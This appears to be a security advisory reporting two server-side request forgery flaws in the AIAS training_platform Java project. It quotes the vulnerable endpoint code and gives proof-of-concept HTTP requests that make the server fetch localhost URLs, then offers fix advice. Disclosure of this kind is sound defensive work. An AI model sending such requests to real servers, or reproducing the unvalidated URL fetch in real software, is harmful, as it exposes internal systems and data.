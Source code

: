 There are SSRF vulnerabilities in two APIs of AIAS subsystem training_platform

# Vulnerability Description

The open source Java AI one-stop solution project "[mymagicpower/AIAS](https://github.com/mymagicpower/AIAS)" has two APIs in the subsystem "training_platform" that have SSRF vulnerabilities.

- Vulnerability Discloser: [Tr0e](https://github.com/Tr0e)

- Vendors:  [http://aias.top/](http://aias.top/)

- Source code address：[https://github.com/mymagicpower/AIAS](https://github.com/mymagicpower/AIAS)

Note:  **This vulnerability was discovered automatically by my AI code audit tool**.

# Vulnerability Analysis

The vulnerability code entry point is located at：

[2_training_platform/train-platform/src/main/java/top/aias/training/controller/InferController.java](https://github.com/mymagicpower/AIAS/blob/main/2_training_platform/train-platform/src/main/java/top/aias/training/controller/InferController.java)

The complete relevant code information of the vulnerability exploit chain is as follows:

```java
    //AIAS-main\2_training_platform\train-platform\src\main\java\top\aias\training\controller\InferController.java
    @GetMapping(value = "/classInfoForUrl", produces = "application/json;charset=utf-8")
    public ResultBean getClassInfoForUrl(@RequestParam(value = "url") String url) {
        // properties.getPath().getPath() + type + File.separator
        TrainArgument trainArgument = trainArgumentService.getTrainArgument();
        String labels = trainArgument.getClassLabels();
        // 还原回 List<String>
        List<String> labelsList = Arrays.stream(labels.substring(1, labels.length() - 1) // 去除方括号
                        .split(", ")) // 以 ", " 分割
                .map(String::trim) // 去除多余空格
                .collect(Collectors.toList());

        String result = inferService.getClassificationInfoForUrl(properties.getPath().getSavePath(), url, labelsList);
        return ResultBean.success().add("result", result);
    }

    //AIAS-main\2_training_platform\train-platform\src\main\java\top\aias\training\service\impl\InferServiceImpl.java
    public String getClassificationInfoForUrl(String newModelPath, String imageUrl, List<String> labels) {
        try {
            Image img = ImageFactory.getInstance().fromUrl(imageUrl);
            ClassPrediction classifications = ImageClassification.predict(newModelPath, img, labels);
            return classifications.toString();
        } catch (Exception e) {
            logger.error(e.getMessage());
            e.printStackTrace();
            return null;
        }
    }

    //AIAS-main\2_training_platform\train-platform\src\main\java\top\aias\training\controller\InferController.java
    //@ApiOperation(value = "Image Comparison (1:1)-URL")
    @GetMapping(value = "/compareForImageUrls")
    public ResultBean compareForImageUrls(@RequestParam(value = "url1") String url1, @RequestParam(value = "url2") String url2) throws IOException, TranslateException, ModelException {
        Image image1 = ImageFactory.getInstance().fromUrl(url1);
        Image image2 = ImageFactory.getInstance().fromUrl(url2);
        String result = inferService.compare(properties.getPath().getSavePath(),image1, image2);
        return ResultBean.success().add("result", result);
    }
```

From the above code, we can see that the two external APIs "/classInfoForUrl" and "/compareForImageUrls" receive URL parameters passed from the outside, and directly initiate http requests to the target URL through "ImageFactory.getInstance().fromUrl(url)" without any verification and filtering, which constitutes a typical SSRF vulnerability.

SSRF (Server-Side Request Forgery) vulnerabilities can allow attackers to access internal systems, services, or sensitive data by exploiting the server's ability to make unauthorized external requests, potentially leading to information disclosure, unauthorized access, or further exploitation within the network.

# Vulnerability Verification

Please first build the project local environment according to the steps provided by the project source code author in the Readme file.

The vulnerability proof of concept (POC) is as follows:

```js
GET /api/inference/classInfoForUrl?url=http://127.0.0.1:9001/test.txt HTTP/1.1
Host: 127.0.0.1:8089
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i


GET /api/inference/compareForImageUrls?url1=http://127.0.0.1:9001/test.txt&url2=https://www.bing.com HTTP/1.1
Host: 127.0.0.1:8089
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

The relevant verification screenshots are shown below:

http://127.0.0.1:8089/api/inference/classInfoForUrl?url=http://127.0.0.1:9001/test.txt  
http://127.0.0.1:8089/api/inference/compareForImageUrls?url1=http://127.0.0.1:9001/test.txt&url2=https://www.bing.com
![image](https://github.com/user-attachments/assets/35826fae-d8d3-45c9-969d-517a246a1292)

![image](https://github.com/user-attachments/assets/a77403a6-362d-4084-a1e9-e9f09a35a06f)


# Security Suggestions

To fix SSRF (Server-Side Request Forgery) vulnerabilities, validate and sanitize all user-supplied input used in HTTP requests, restrict server access to trusted internal resources by implementing proper whitelisting or IP filtering, use secure coding practices to prevent unintended outbound requests, and consider proxying external requests through a controlled intermediary with appropriate access controls.
